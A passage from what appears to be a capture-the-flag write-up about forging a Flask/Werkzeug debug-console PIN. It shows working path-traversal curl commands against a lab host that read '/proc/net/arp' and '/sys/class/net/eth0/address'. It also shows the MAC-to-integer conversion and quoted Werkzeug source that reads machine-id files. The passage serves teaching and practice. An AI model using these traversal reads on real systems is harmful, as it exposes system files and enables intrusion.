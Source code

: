 I’ve already got all I need for the `probably_public_bits`:
- `username` is root, as shown in the `supervisoerd.conf` file
- `modname` and the next one are just `flask.app` and `Flask`
- The last `probably_public_bits` item is the path from the crash, the same one I used just above to get the location of the debug `__init__.py`.

To get the MAC address, `/proc/net/arp` will return it:

```

oxdf@hacky$ curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
172.17.0.1       0x1         0x2         02:42:90:98:18:9e     *        eth0

```

I need `--ignore-content-length` because the content length on some of these files is off, and it can lead to missing information, as shown in [this quick video](https://www.youtube.com/watch?v=Cife4ejJGlo):

The MAC will also be in `/sys/class/net/[device id]/address`. If I don’t know the device id, I can take some guesses and it comes back from `eth0`:

```

oxdf@hacky$ curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//sys/class/net/eth0/address
02:42:ac:11:00:08

```

I’ll convert that to a base-10 int in Python by adding `0x` to the front and removing the `:`:

```

oxdf@hacky$ python -c "print(0x0242ac110008)"
2485377892360

```

Finally, I need the result of `get_machine_id`. The blogs describe this as:

> read the value in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` and return directly if there is, sometimes it might be required to append a piece of information within `/proc/self/cgroup` that you find at the end of the first line (after the third slash)

I find the actual code more clear:

```

def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
```